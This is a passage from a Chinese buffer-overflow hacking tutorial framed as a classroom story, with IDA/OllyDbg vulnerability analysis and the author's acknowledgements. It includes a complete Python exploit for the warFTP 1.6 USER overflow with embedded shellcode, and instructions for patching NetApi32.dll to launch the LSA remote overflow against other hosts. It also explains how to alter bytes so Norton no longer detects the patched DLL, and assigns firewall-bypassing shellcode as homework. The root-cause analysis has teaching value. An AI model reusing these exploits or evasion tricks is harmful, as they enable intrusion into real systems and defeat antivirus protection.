“呵呵，是啊！Python 既有脚本语言构造字符串的优势，又有很多现成的网络协议包可以使用，所以黑盒测试是 Exploit 编写的必备良药！”

“还有许多使用 Python 语言探测漏洞的自动工具和方法。”老师说道，“推荐使用 fusser.py 程序，它可对 SMTP、FTP、POP3 服务器进行自动检测。”

老师介绍完后说道，“我给大家布置一个作业，用 fusser.py 检查 warFTP1.6 的漏洞，并试着分析一下利用方法和漏洞的成因。Ok？今天就到这里，放学！”

# 7.2.4 Python 探测 warFTP 漏洞

### 7.2.4 Python 探测 warFTP 漏洞

小强日记之五

11 月 29 日 阴

今天，老师布置了作业，涉及漏洞的利用和分析。我一点也不敢懈怠。下课后告别小倩回到家中，匆匆吃完饭后就坐在电脑前看老师推荐的 Fusser。

在网站上下载了一个 Fusser 1.0（光盘也有收录），直接在命令行下敲 fuzzer.py ，就会给出使用帮助信息，即主机 IP、端口、探测协议。如图 7-19。


我琢磨如何利用它进行自动探测呢？想了想，不如把 warFTP 安装好，直接测试！

再下载了一个 warFTP 1.6 版本（光盘有收录），安装后其界面如图 7-20。同样简洁明了，但没有 CCProxy 那样规范，有点随意化。


输入 `fuzzer.py 192.168.3.151 21 ftp` ，尝试着测试一下 FTP 协议，哇！一下就报出探测到漏洞了：Bug found，如图 7-21。自动化就是好啊！


根据提示，看来是处理 User 名的时候有溢出问题！于是边回忆老师讲的内容，边用 Python 构造字符串实现定位。看了看 Python 的帮助，自己试着写了个 FTP 协议的探测程序。首先加载 FTP 协议包，然后连接 FTP，发送超长的用户名，程序如下：

```
from ftplib import FTP
ftp = FTP('192.168.3.151')
ftp.login( 'A'*500,'ww')
```

哈哈，一下子就成功了！warFTP 没有反应，挂掉了。如老师所说，有了一门语言的基础，对比学习另一门语言，是个很快的过程。

看来 500 个字节的用户名实现了溢出，但没有出错对话框弹出，所以要用 OllyDbg 来帮助定位。我先重新启动 warFtp，再用 Ollydbg 加载程序。如图 7-22 和图 7-23。


重新执行刚才的程序，这下 Ollydbg 截获了异常！41414141 不能执行，就是我们发送的字符串。如图 7-24。


重启 warFTP，我发现只需用“Debug”菜单下的“Restart”就可重新启动并加载程序了，而且加的注释也不会丢失，如图 7-25。这下方便多了！


一不小心就发现了一个小技巧，我暗自得意了一会儿，然后就考虑定位了。

经过这学期的学习，定位的方法我已经牢牢掌握了。首先定位百位，ABCDE 各占 100，程序如下：

```
from ftplib import FTP
ftp = FTP('192.168.3.151')
s = 'A'*100 + 'B'*100+'C'*100+'D'*100+'E'*100
ftp.login( s,'ww')
```

Ollydbg 截获异常，如图 7－26。


0x45454545 不能执行，0x45 是“E”，E－A＝4，即是 400 多的地方到达异常点。

百位是 4，再定位十位。先是 400 个 A，然后在 ABCD……各发 10 个，程序如下：

```
from ftplib import FTP
ftp = FTP('192.168.3.151')
s = 'A'*400 +'A'*10 + 'B'*10+'C'*10+'D'*10+'E'*10+'F'*10+'G'*10+'H'*10+'I'*10+'J'*10
ftp.login( s,'ww')
```

这次是 49 到达返回点，如图 7－27。49－41＝8，就是 80 多。


最后一次，定位个位。先是 480 个 A，然后是“'ABCDEFGHIJ'”，程序如下：

```
from ftplib import FTP
ftp = FTP('192.168.3.151')
s = 'A'*400 +'A'*80+ 'ABCDEFGHIJ'
ftp.login( s,'ww')
```

这次是 46474849 到达返回点，截获的图如图 7－28。


所以个位是 0x46－0x41＝5。400＋80＋5＝485！我们把 485 的地方改为 BBBB，其余全为 AAAA，检验一下。

```
from ftplib import FTP
ftp = FTP('192.168.3.151')
s = 'A'*485 +'BBBB'+'AAAA'
ftp.login( s,'ww')
```

测试，果然是 42424242 报错！轻松搞定定位溢出点！

然后就考虑利用了，构造是： USER A*485 + RET + ShellCode

在 Python 中，直接加 ShellCode 就可以了，构造起来真爽！嗯？怎么有不能写的错误，如图 7－29。


添几个 NOP 看看，改进构造为： USER A*485 + RET + 32 个 Nop ＋ ShellCode

程序如下：

```
from ftplib import FTP
ftp = FTP('192.168.3.151')
sc = 'A'*485 +'\x12\x45\xFA\x7F' + '\x41'*32
sc += "\xd9\xee\xd9\x74\x24\xf4\x5b\x31\xc9\xb1\x5e\x81\x73\x17\xe0\x66"
sc +="\x1c\xc2\x83\xeb\xfc\xe2\xf4\x1c\x8e\x4a\xc2\xe0\x66\x4f\x97\xb6"
sc +="\x31\x97\xae\xc4\x7e\x97\x87\xdc\xed\x48\xc7\x98\x67\xf6\x49\xaa"
sc +="\x7e\x97\x98\xc0\x67\xf7\x21\xd2\x2f\x97\xf6\x6b\x67\xf2\xf3\x1f"
sc +="\x9a\x2d\x02\x4c\x5e\xfc\xb6\xe7\xa7\xd3\xcf\xe1\xa1\xf7\x30\xdb"
sc +="\x1a\x38\xd6\x95\x87\x97\x98\xc4\x67\xf7\xa4\x6b\x6a\x57\x49\xba"
sc +="\x7a\x1d\x29\x6b\x62\x97\xc3\x08\x8d\x1e\xf3\x20\x39\x42\x9f\xbb"
sc +="\xa4\x14\xc2\xbe\x0c\x2c\x9b\x84\xed\x05\x49\xbb\x6a\x97\x99\xfc"
sc +="\xed\x07\x49\xbb\x6e\x4f\xaa\x6e\x28\x12\x2e\x1f\xb0\x95\x05\x61"
sc +="\x8a\x1c\xc3\xe0\x66\x4b\x94\xb3\xef\xf9\x2a\xc7\x66\x1c\xc2\x70"
sc +="\x67\x1c\xc2\x56\x7f\x04\x25\x44\x7f\x6c\x2b\x05\x2f\x9a\x8b\x44"
sc +="\x7c\x6c\x05\x44\xcb\x32\x2b\x39\x6f\xe9\x6f\x2b\x8b\xe0\xf9\xb7"
sc +="\x35\x2e\x9d\xd3\x54\x1c\x99\x6d\x2d\x3c\x93\x1f\xb1\x95\x1d\x69"
sc +="\xa5\x91\xb7\xf4\x0c\x1b\x9b\xb1\x35\xe3\xf6\x6f\x99\x49\xc6\xb9"
sc +="\xef\x18\x4c\x02\x94\x37\xe5\xb4\x99\x2b\x3d\xb5\x56\x2d\x02\xb0"
sc +="\x36\x4c\x92\xa0\x36\x5c\x92\x1f\x33\x30\x4b\x27\x57\xc7\x91\xb3"
sc +="\x0e\x1e\xc2\xf1\x3a\x95\x22\x8a\x76\x4c\x95\x1f\x33\x38\x91\xb7"
sc +="\x99\x49\xea\xb3\x32\x4b\x3d\xb5\x46\x95\x05\x88\x25\x51\x86\xe0"
sc +="\xef\xff\x45\x1a\x57\xdc\x4f\x9c\x42\xb0\xa8\xf5\x3f\xef\x69\x67"
sc +="\x9c\x9f\x2e\xb4\xa0\x58\xe6\xf0\x22\x7a\x05\xa4\x42\x20\xc3\xe1"
sc +="\xef\x60\xe6\xa8\xef\x60\xe6\xac\xef\x60\xe6\xb0\xeb\x58\xe6\xf0"
sc +="\x32\x4c\x93\xb1\x37\x5d\x93\xa9\x37\x4d\x91\xb1\x99\x69\xc2\x88"
sc +="\x14\xe2\x71\xf6\x99\x49\xc6\x1f\xb6\x95\x24\x1f\x13\x1c\xaa\x4d"
sc +="\xbf\x19\x0c\x1f\x33\x18\x4b\x23\x0c\xe3\x3d\xd6\x99\xcf\x3d\x95"
sc +="\x66\x74\x32\x6a\x62\x43\x3d\xb5\x62\x2d\x19\xb3\x99\xcc\xc2"
ftp.login( sc,'ww')
```

成功利用！如图 7－30.


好了，现在来分析分析漏洞了，不熟悉的地方开始了。

按老师讲的方法，在溢出时记下保存返回地址的 ESP 值，ESP＝00BBFD5C，然后设置写断点，看是哪个函数保存返回地址在那个 ESP 值中！

在 Ollydbg 中，用 ALT＋M 弹出断点设置框，也可设置内存写断点。但是，设置后有无数的指令对 00BBFD5C 处的值进行了写操作。中断倒是中断了很多次，但次数太多了，根本不知道是哪个函数的操作。郁闷！调了半天都没调出来，还有其他课也布置了作业。没办法，下节课问老师吧！

# 7.3 白盒法和 IDA 分析漏洞

## 7.3 白盒法和 IDA 分析漏洞

“大家用 Fuzzer 分析 warFTP 怎么样啊？”老师进入教室后问道。

“Fuzzer 太好用了！”古风说道。

“是啊，Python 也是，方便的定位出 USER 485 的地方是溢出点！”玉波说道。

“嗯，不错，那漏洞分析呢？”老师问道。

大家互相望了望，谁都没调出来。

“老师，那个方法不管用啊！”宇强鼓足勇气说道，“被中断的地方太多了，不能在发生溢出的前方中断下来。而且我们又要考试了，没有太多的时间进行调试啊！”

“是啊！”大家都很赞同宇强的说法。

“好的，这节课是本学期最后一次课了。在黑盒法分析失效的情况下，我们可以使用白盒法辅助分析漏洞。

# 7.3.1 白盒法测试

### 7.3.1 白盒法测试

“白盒测试也称结构测试或逻辑驱动测试，它知道产品内部工作过程，通过测试来检测产品内部动作是否按照规格说明书的规定正常进行。它检验程序中的每条通路是否都有按预定要求正确工作。”

小知识：白盒法测试

白盒法全面了解程序内部逻辑结构，对所有逻辑路径进行测试。“白盒”法是穷举路径测试。在使用这一方案时，测试者必须检查程序的内部结构，从检查程序的逻辑着手，得出测试数据。白盒测试的主要方法有逻辑驱动、基路测试等。

“白盒法也不能‘证明’一个程序是‘正确’的！”老师补充道，“贯穿程序的通路是天文数字，而且即使每条路径都测试了，仍然可能有错误。第一、穷举路径测试决不能查出程序违反了设计规范，即程序本身是个错误的程序。第二、穷举路径测试不可能查出程序中因遗漏路径而出错。第三、穷举路径测试可能发现不了一些与数据相关的错误。”

“老师，还是快说说漏洞分析吧！”台下焦急的说道。

# 7.3.2 IDA 帮助分析 warFTP 漏洞

### 7.3.2 IDA 帮助分析 warFTP 漏洞

“好，我们在 IDA 的帮助下来分析 warFTP 的漏洞吧！”

“IDA 是强大的反汇编工具（光盘有收录），不仅可以给出反汇编代码，还可以在我们的指引下主动进行一些分析；而且可以写些脚本 IDC 来进行自动分析。IDA 是白盒法测试时必用的工具！”

“打开 IDA 后，选择‘open’，打开 warFTP.exe 程序就开始分析反汇编了。”

“等一会儿分析完毕后，在‘Function’一栏可以直接看到调用的函数，包括 MFC 的函数名都可清楚的分析出来。”

大家看了看图 7－31，果然如此！


“我们想一下，warFTP 是因为我们的过长字符串才引发的溢出；而且是远程溢出；所以……”老师慢慢的说，“一定是通过网络，warFTP 接收了我们的过长字符串才引起的溢出。”

“嗯！”大家点点头。

“一般的网络编程，百分之九九都是用 Socket 来完成的。warFTP 接收我们的字符串，应该就是通过……”

“哦！一定是使用 Socket，用 recv 或类似函数来完成的吧！”宇强抢着说道。

“对！我们看看 IDA 的‘function’那一栏，查看 Socket 相关的函数。发现了 MFC 的 CAsyncSocket ::Receive 函数，那是 MFC 封装的用于接收网络数据的函数，其位置在 0x004345B8。”

```
text:004345B8 ; public: virtual int __thiscall CAsyncSocket::Receive(void *,int,int)
```

小知识：MFC

微软基础类库，是微软对 Windows API 的再次封装，期望简化编程的复杂度，提高软件开发效率并减少软件成本。

“经过白盒法的辅助分析后，我们得到了关键的启发。再运行 Ollydbg，加载程序，然后对 0x004345B8 地址设断点，如图 7－32。”


“运行全 A 的超长字符串攻击程序，果然被 Ollydbg 成功中断下来。Receive 其实还是调用了 WSOCK32 的 recv 函数。我们跟进去就可以看见如下代码：”

```
73D4A22E > FF7424 0C PUSH DWORD PTR SS:[ESP+C]
73D4A232 FF7424 0C PUSH DWORD PTR SS:[ESP+C]
73D4A236 FF7424 0C PUSH DWORD PTR SS:[ESP+C]
73D4A23A FF71 04 PUSH DWORD PTR DS:[ECX+4]
73D4A23D E8 03000000 CALL MFC42.73D4A245 ; JMP to WSOCK32.recv
73D4A242 C2 0C00 RETN 0C
```

“看，最后一个参数是[ECX+4]，值为 00D7E93C，是接收后数据存放的地方。我们在左下角的内存窗口中按 Ctrl＋G，弹出地址对话框，输入 00D7E93C 就会显示该地址的内容。recv 执行完后，可以看到，收到的就是我们发的东东：User AAAAA……如图 7-33。”


“哦！”

“这就完成了我们漏洞分析最关键的一步，在字符串处理的前端中断了下来！我们继续跟踪，注意随时查看各个参数里的内容，发现我们发送的字符串就多多观察。”

“到了下面这里，是在判断开头的命令字符，这里是 USER 命令，如图 7－34。”


“然后程序处理后面的字符串，经过耐心的跟踪，在 0042E2FA：call 004044c0 时，有对 00BBFD54 进行了写操作！即该函数把地址保存在 00BBFD54 这个位置。如图 7-35。”


“哦！但 00BBFD54 和 00BBFD5C 不是同一个地址啊！”古风一脸疑问的表情。

“莫非是 ret n？”宇强说道。

“呵呵！我们按 F8 跟进去看看！”

“好，一下子就看见有一个 sprinft 函数！如图 7-36。”


“我们边单步运行，边查看它的参数。”

“首先 PUSH EAX，这个 EAX 为如下：”

```
"[C 2004 11 26 22:42] 00001 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

“就是日期时间加上我们输入的超长字符串。”

“然后，PUSH war-ftpd.004406C0，这里是%s，一个标准的字符串拷贝。”

“最后 PUSH ECX，再 CALL <&MSVCRT.sprintf>。”

“我们来计算一下，ecx＝0x00BBFB54；而保存返回地址在 ESP＝0x00BBFD54 中。”

“相减，0x00BBFD54－0x00BBFB54＝0x200＝512。”

“而前面[C 2004 11 26 22:42] 00001 AAA…有 28 个字符， 所以填充 A 为是 512-27＝485。果然是这样！”

“继续跟踪，到函数返回的时候，果然和宇强同学说的一样，是 RETN 4，如图 7-37。”


“我们说过 RET 4＝POP EIP，ADD ESP，4。现在 ESP＝00BBFD54，对应的值为 41414141，所以返回后，系统会执行 0x41414141 的地方，如图 7-38。


“最后看看为什么 RET 4 返回后，ESP 会成为 00BBFD5C。”

“RET 4＝POP EIP，ADD ESP，4。首先 POP EIP，那么 EIP 变成 0x41414141，而 ESP＋4＝00BBFD54＋4＝00BBFD58；再 ADD ESP，4＝ESP＋4＝00BBFD58＋4＝00BBFD5C。”

“所以返回后，EIP＝41414141，ESP＝00BBFD5C，果然验证了我们的分析，如图 7－39。”


“小结一下，溢出是因为执行了 sprintf（eax,”％s”,”[] AAAAAAAAAA”） 。这里，eax 是一个局部变量，而 sprintf 没有验证字符串的长度，所以就发生溢出了！”

# 7.3.3 黑白结合，LSA 漏洞的分析利用

### 7.3.3 黑白结合，LSA 漏洞的分析利用

“一气呵成！不知不觉中就把漏洞找了出来，”宇强感叹道。

“呵呵！最后来一个高难度的吧！LSA 的远程溢出漏洞分析利用。这就需要黑白法结合了。”

“首先看看本地溢出，这个比较简单，图 7－40 里的代码就可引发本地溢出。”


“其功能是从系统 Netapi32.dll 中找到 DsRolepEncryptPasswordStart 函数，然后执行该函数，函数的第一个参数过长，就会溢出，溢出效果么？呵呵，弹出一个出错对话框，倒计时 1 分钟后就重启。”

“哦！和震荡波的效果一样啊！”

“只能等它重启，没有办法了吗？”

“大家在运行程序里输入 shutdown –a ，可以终止系统关机。Shutdown 命令的帮助如图 7-41。”


“因为可以直接用 DsRolepEncryptPasswordStart 函数引发本地异常，所以本地漏洞利用比较简单，大家用 Ollydbg 加载 lsass.exe 进程，然后填充 buf 用定位大法，就可轻松实现定位和利用！大家都应该很清楚了吧，这个作为寒假作业，大家自己跟入分析一下。”

大家纷纷埋头记下来。

“好了，我们来看看感兴趣的——远程利用！”

“我们刚才用的 Netapi32.dll 中的 DsRoleUpgradeDownlevelServer 函数是个客户端函数，我们给它的超长参数会在服务端函数 LSASRV.dll 中的 DsRolerUpgradeDownlevelServer?处理！注意，函数名只相差一个‘r’。大家下去亲自跟踪一下就清楚了。”

“服务端函数不会判断请求是哪儿来的，但微软实现时就固定好了客户端函数只向本机发请求。所以我们发请求，默认给本机，本机 LSASRV.dll 中的服务器函数处理就会出现问题重启。”

“好，现在我们的目标就是要给远程机器发送请求！但刚才说了，微软在实现代码时就固定了只能向本机发请求，那怎么办呢？”

“是啊！不好办啊！”台下说道。

“其实，平时我们使用修改后的东西也多了；要注册码，我们就破解注册码；要过期，我们就破解过期补丁。所以，我们也把比尔盖茨实现好的客户端代码改一下，不仅向本机发请求，也能向远程主机发请求。”

“真正的黑客精神，就是不断的深入研究技术，大胆创新，发扬共享精神。”

“我们用 IDA 反编译 NetApi32.dll。好，结束后，用名字找到 DsRoleUpgradeDownlevelServer()的地方。如图 7－42。”


“好，从函数开始的地方，往下走一点点，代码如下：”

```
.text:7513D5F7 8D 45 CC lea eax, [ebp+var_34]
.text:7513D5FA 50 push eax
.text:7513D5FB 6A 00 push 0
.text:7513D5FD E8 0F 05 00 00 call _DsRolepEncryptPasswordStart@24 ;
```

“在 IDA 中，默认是不显示机器码的，在‘Options→General→Disassembly’页面中，有 Number of opcode bytes，默认是 0，我们把它改成 6 或 8 就行了。如图 7－43。”


“根据 eEye 的文档，那里就是我们要修改的地方！_DsRolepEncryptPasswordStart 函数的第一个参数就是主机。微软用的是 0，即为空，表示把请求发给本机。我们要把它改成远程主机的地址就 OK 了。”

“ShellCode 的是 DsRoleUpgradeDownlevelServer 的参数传来的；那么远程主机的地址也从那里传来吧！用 DsRoleUpgradeDownlevelServer 函数的第九个参数传主机地址；然后作为第一个参数给 DsRolepEncryptPasswordStart。”

“因为前面第九个参数已经给了[ebp+var＋34]了，我们把[ebp+var＋34]的内容压入就行了。”

“明白了思路，现在改写代码。注意，改写时要保证字节个数和原来的相同，参数也要压足。除了保证第一个参数压的是[ebp+var＋34]外，其他的乱压也可以，所以我们就这样吧：”

```
　　50 push eax
　　8B 45 CC mov eax, [ebp+var_34]
　　50 push eax
　　90 nop
```

“这样就把存在[ebp+var_34]中的远程主机地址作为第一个参数压入；nop 是什么都不做的空指令，目的只是为了保证字节数和原来的相同。”

“好，我们调出 WinHex，搜索至我们要修改的地方，作图 7-44 的的修改。”


“啊，诺顿报警了！这么厉害啊！”古风发现道。

“我们等会再来考虑这个问题，先把诺顿关掉，然后 LoadLibrary 我们改过后的 ww1NetApi.dll，并把第九个参数改成远程主机的地址，即 \ip\ipc$ 的 Unicode 形式。指定远程主机的 IP 地址，编译执行 LSA1.cpp，再 Telnet 远程主机的 1234 端口。‘啪’！果然连上了我们要攻击的远程主机。”

“成功了！”大家欢呼起来。

“我们再来改进改进。首先，辛辛苦苦修改的 dll 会被查杀成病毒，那么就要想办法让杀毒软件不认识！”

“杀毒软件是按照文件的特征码来识别一个病毒或木马的。我们只是在正常的系统文件 NetApi32.dll 的基础上改变了 6 个字节，其他完全相同；所以杀毒软件的特征码一定是判断的这 6 个字节！那我们就把这六个字节稍微改一下，看它还能否识别！”

“刚才说了，90 是 nop，表示什么都不做的空指令，我们把它放在其它指令之间，如图 7－45，和指令 50 （即汇编 PUSH EAX）交换一下位置。”


“然后保存为 ww2NetApi.dll，让诺顿再扫描看看。呵呵！这次没报警了。其实，如果还要报警，我们可以继续修改 nop 位置，如还不行，还可改成 mov ebx [] ，再 push ebx 等。办法多得很呢！”

“不会被查杀了，看看效果啊！我们把程序改为读 ww2NetApi.dll，再运行，还是成功了！如图 7－46。


小知识：特征码

现在绝大多数杀毒软件都是建立在“病毒特征码”基础上的。有新病毒出现时，厂商先要获得病毒的一个样本，提取出它的特征码，用户把特征码加入到病毒库中才能查杀。如果我们测试出了杀毒软件的判断特征码，将其改成不影响功能的其他指令，就肯定不会被查杀！从这个意义上来说，反病毒的技术需要一个革命化的突破！

“在此，我们是直接物理修改了 NetApi32.dll，就像破解一样，修改了物理文件。其实，我们还可在内存里动态修改，就如同内存注册机一样，动态读出内存的东西！这个交给大家下去完成吧！”

“现在我们可以说是完美的实现远程溢出了，但带有一个 300k 的 dll，试想震荡波拖着这个 dll 到处跑，也太难为它了吧！所以我们就把 dll 也去掉，完全用一个程序实现！”

“啊？怎么实现呢？”

“源代码是微软控制的，一般人都看不到。当然，对我们菜鸟来说，即使有了源代码，也是读不懂请求是如何实现的，更不用说自己写一个请求了。”

“所以黑盒法出场了！本机向远程发起请求时，一定会通过网络的。所以，我们可把远程主机发的请求包抓下来，模拟客户端，向服务端发送这样的网络包就可以了！

“好啊，说干就干！”古风打开 Ethereal（光盘有收录），再对远程主机攻击一次，然后把攻击发送的包抓下来，如图 7－47。


“192.168.1.166 是攻击机，192.168.1.169 的被攻击的服务机。192.168.1.166 先是 TCP 三次握手，然后建立空连接，图 7－47 里 NT Create Andx Request, Path:\lsarpc 那排是关键！那就是发送一定的请求，然后把我们的超长参数发过去。”

“但我们不用具体了解它的含义，只管把请求拷贝下来存在数组中，直接向远程机器发送就是了。”

“这次运行我们的 LSA2.cpp，又成功了，它可是不带 dll 的哦!”

“哇！”

“Sniffer 是很有用的，如果有溢出的 exe 程序，那我们就不用具体搞清楚协议、实现什么的，到时直接一抓包，发挥菜鸟吃苦精神，一句句的敲在发送数据中就可以了！而且这种方法分析微软未文档化的东西（特别是 RPC 相关的东西），那更是相当有用！”

# 尾声

## 尾声

“老师，好像 LSA 这样的网络通信也很有意思！和 Socket 好像不一样，讲讲它们的实现吧！”古风说道。

“呵呵，快放假了，大家也要进入期末考试了。估计也不能投入太多时间来进行实际思考，更别提实践和演练了。而这门课，只懂得原理是远远不够的，实践才是关键。所以我打算布置一下寒假作业。”老师说道。

同学们都拿起笔，听老师布置作业。

“第一道题就是上节课说的，利用寒假时间通过查阅网上的相关资料，用高级语言实现一个找出已有 Socket，并利用它传输数据的程序，用于穿透防火墙！”

“代码还能够执行远程传输过来的命令，最后再把它提取成我们的 ShellCode。”老师接着说道。

“哦，听起来还蛮有难度啊！”玉波吐了吐舌头。

“第二道题：分析一个假期中出现的新漏洞。当然，如果你们能自己发现新漏洞，当然更好（在 CVE 留下自己的名字吧）！下学期开学后我们进行评讲，然后进一步深入各种漏洞，包括格式化溢出、静态溢出、VC 虚函数溢出、Linux 环境下溢出等，还会涉及到其他方面的内容！到时看校长大人土豆以及学校的安排吧！这学期的课就到这里。大家好好复习，准备考试！同学们，再见！希望大家过个好年！”

宇强和小倩来到教室外面……

天空下起了雪花了，一片片落下，然后渗入水泥路面。整个世界，好像裹上了一层素装。

在南方，下雪极不易啊！

“平安夜，我们去天府广场听钟声吧？”

“好啊！”

不知何时，两人的手牵在了一起；两颗心，是如此的温暖和接近。

……

后序

感谢：

在论坛上看到很多初学缓冲区溢出的人，他们有着很高的学习激情和渴望；也有更多的人迫切希望进行缓冲区溢出的学习，但限于基础，对大量精妙但又复杂的资料让他们望而止步。

帮他们解决问题时，似乎看到了当时的自己——勤奋、努力，但缺乏系统和详细指导的资料，不得不一次又一次的搜索 Google；一次又一次的发问。

自己曾为在 Google 的 30 多页里找到一个调试技巧而欢心鼓舞；也曾为一个问题，钻研了半个多月也没有解决。

临渊羡鱼，不如结网而退！

在土豆的大力支持下，我根据自己学习、利用缓冲区溢出漏洞的经验，用简单、通俗的语言写出来了就是这本以校园生活为背景的——《Q 版黑客缓冲区溢出教程》。

写作过程是漫长的，要处理的事情是烦琐的。当终于坚持下来正?X 痊9 式搁笔时，一种如释重负的感觉油然而生……

在此，我要特别感谢土豆，和他一起策划、一起构思的日子，让我学到了很多东西。

也要感谢我的导师方勇副教授，在他支持下，我才有能力和勇气提起笔来完成这样的尝试，并在他的精心帮助、指导下，知道了如何成就一本第二符合规范的书。

谢谢张薇，帮我精心整理了每幅图片，我和古风不一样，我不喜欢重复性的劳动……

在写本书的最后部分时，自己的心脏出现了点小 case，非常感谢我的父母，在他们的精心照顾下，自己终于在病床上完成了最后一章和后序。

最后，感谢你！对！就是正在看这本书的你！你的支持、你的进步，才是我提笔写作的最大动力。

王炜

2004 年 12 月 于泸州医学院